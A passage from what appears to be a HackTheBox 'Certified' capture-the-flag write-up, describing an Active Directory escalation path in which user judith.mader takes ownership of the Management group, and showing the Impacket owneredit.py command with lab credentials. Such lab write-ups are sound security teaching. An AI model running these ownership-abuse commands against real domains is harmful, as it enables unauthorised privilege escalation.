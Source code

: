 ![path1](../../../../../assets/certified/path1.png)

The first escalation consists of changing the object's owner, granting ourselves special permissions on the group and, once we have those permissions, adding ourselves to it. Most of these tools are in the [CertiPy](https://github.com/ly4k/Certipy) repository, inside the `bin` directory.

##### _judith.mader_ → _Management_

- 1º [Owneredit](# "Impacket script that allows changing the owner of an object in Active Directory to take control over it.") to take control of the object.

```python
owneredit.py -action write -new-owner 'judith.mader' -target 'management' 'certified.htb/judith.mader:judith09'
```
